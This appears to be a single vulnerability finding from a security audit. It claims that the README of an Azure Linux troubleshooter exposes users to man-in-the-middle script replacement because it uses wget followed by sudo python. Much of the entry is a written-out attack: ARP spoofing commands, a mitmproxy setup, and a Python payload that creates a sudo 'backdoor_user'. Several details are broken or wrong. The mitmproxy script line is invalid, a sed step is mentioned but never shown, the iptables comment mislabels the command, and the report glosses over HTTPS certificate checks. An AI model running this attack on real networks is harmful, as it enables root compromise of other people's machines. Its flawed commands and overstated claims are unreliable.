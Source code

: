 #### 1. MITM vulnerability during script download

- **Description:**
    - The `README.md` file provides instructions to download the `UM_Linux_Troubleshooter_Offline.py` script using `wget` over `https` from `raw.githubusercontent.com`.
    - An attacker positioned to perform a Man-in-The-Middle (MITM) attack can intercept the HTTPS request for the script.
    - The attacker can then replace the legitimate `UM_Linux_Troubleshooter_Offline.py` script with a malicious script of their choosing.
    - The user, following the instructions, proceeds to execute the downloaded script using `sudo python UM_Linux_Troubleshooter_Offline.py`, granting the malicious script root privileges.

- **Impact:**
    - **Critical**. Successful exploitation of this vulnerability allows a remote attacker to execute arbitrary code with root privileges on the victim's machine. This can lead to complete system compromise, including data theft, malware installation, and denial of service.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - None. The project currently relies on the implicit security of HTTPS for downloading the script, but does not implement any explicit integrity checks.

- **Missing Mitigations:**
    - **Integrity Verification:** Implement a mechanism to verify the integrity of the downloaded script. This could be achieved by:
        - Providing a checksum (e.g., SHA256 hash) of the script in the `README.md` file and instructing users to verify the checksum after downloading.
        - Digitally signing the script and providing instructions for users to verify the signature before execution.
    - **Security Warning in Documentation:** Explicitly mention the MITM vulnerability risk in the `README.md` and `SECURITY.md` files, warning users about the importance of downloading the script from a trusted and secure network.
    - **Alternative Secure Download Method:** Consider providing alternative secure download methods, such as downloading from a dedicated Azure endpoint with enforced integrity checks, if feasible.

- **Preconditions:**
    - **MITM Attack Capability:** The attacker must be capable of performing a Man-in-The-Middle attack on the network path between the user's machine and `raw.githubusercontent.com`. This could be achieved in various scenarios, such as:
        - Attacking a public Wi-Fi network.
        - Compromising the user's local network.
        - DNS spoofing.
        - BGP hijacking.
        - Compromising network infrastructure along the route.
    - **User Follows Instructions:** The user must follow the instructions in the `README.md` file to download and execute the script.
    - **User Executes with Sudo:** The user must execute the script using `sudo`, which is part of the provided instructions, to grant elevated privileges to the potential malicious script.

- **Source Code Analysis:**
    - **`README.md` (Instructions for downloading and running the script):**
        ```markdown
        # to run linux troubleshooter [compatible with python3]
        sudo wget https://raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py
        sudo python UM_Linux_Troubleshooter_Offline.py
        ```
        - The instructions use `wget` to download the script from `raw.githubusercontent.com` over `https`. While HTTPS provides encryption, it does not inherently prevent MITM attacks if the client doesn't verify server certificates properly or if the attacker can compromise the connection before HTTPS is fully established or via other means.
        - **Absence of Integrity Check:** There are no instructions to verify the integrity of the downloaded script before execution. The user directly executes the downloaded script.
        - **`sudo` Execution:** The instructions explicitly use `sudo` to execute the script, which is necessary for many troubleshooting tasks within the script but also elevates the risk significantly if a malicious script is executed.

- **Security Test Case:**
    1. **Set up MITM Attack Environment:** Configure a machine as a MITM attacker. This can be done using tools like `mitmproxy`, `Ettercap`, or `BetterCAP`. For example, using `mitmproxy`:
        ```bash
        # On attacker machine:
        sudo apt-get install mitmproxy  # Or appropriate installation for your system
        sudo ip route get 1.2.3.4 | awk '{print $3}' # Get gateway IP
        GATEWAY_IP=$(sudo ip route get 1.2.3.4 | awk '{print $3}')
        VICTIM_IP=<victim_machine_ip>
        sudo arpspoof -i <attacker_interface> -t $VICTIM_IP $GATEWAY_IP &
        sudo arpspoof -i <attacker_interface> -t $GATEWAY_IP $VICTIM_IP &
        sudo iptables -P FORWARD ACCEPT # Enable IP forwarding
        mitmproxy --ssl-insecure
        ```
    2. **Create Malicious Script (`malicious_script.py`):** Create a simple malicious Python script that will be used to replace the legitimate script during the MITM attack. For example, to create a backdoor user:
        ```python
        #!/usr/bin/env python
        import os
        import subprocess

        def create_backdoor_user():
            username = "backdoor_user"
            password = "P@$$wOrd123" # Choose a more robust password in real scenarios
            try:
                subprocess.run(["useradd", "-m", "-p", password, "-s", "/bin/bash", username], check=True)
                subprocess.run(["usermod", "-aG", "sudo", username], check=True)
                print(f"Backdoor user '{username}' created with sudo privileges.")
            except subprocess.CalledProcessError as e:
                print(f"Error creating backdoor user: {e}")

        if __name__ == "__main__":
            print("Malicious script executed with root privileges!")
            create_backdoor_user()
        ```
    3. **Configure MITM Proxy to Replace Script:** Configure `mitmproxy` (or your chosen MITM tool) to intercept the request to `raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py` and replace the response with the content of `malicious_script.py`. In `mitmproxy`, you can use a simple inline script or a more complex Python script. For a quick inline script, you can use `sed` to replace the body:
        ```bash
        # Assuming malicious_script.py is in the same directory as mitmproxy command
        MALICIOUS_SCRIPT_CONTENT=$(cat malicious_script.py)
        mitmproxy --ssl-insecure -q -s '(flow) => { if flow.request.pretty_url == "https://raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py": flow.response = mitmproxy.http.Response.make(200, "'"$MALICIOUS_SCRIPT_CONTENT"'", {"Content-Type": "text/plain"}) }'
        ```
    4. **Execute Download Command on Victim Machine:** On the victim machine, execute the download command as instructed in `README.md`:
        ```bash
        sudo wget https://raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py
        ```
    5. **Execute the Script on Victim Machine:** Execute the downloaded script with `sudo`:
        ```bash
        sudo python UM_Linux_Troubleshooter_Offline.py
        ```
    6. **Verify Successful Exploit:** Check if the malicious script was executed with root privileges. In this test case, verify if the backdoor user `backdoor_user` has been created on the victim machine and has sudo privileges:
        ```bash
        id backdoor_user
        sudo -l -U backdoor_user
        ```
        If the user exists and has sudo privileges, the MITM attack and vulnerability exploitation are successful.

This test case demonstrates that an attacker can successfully inject malicious code by intercepting the script download and gain root access to the victim's system, confirming the MITM vulnerability.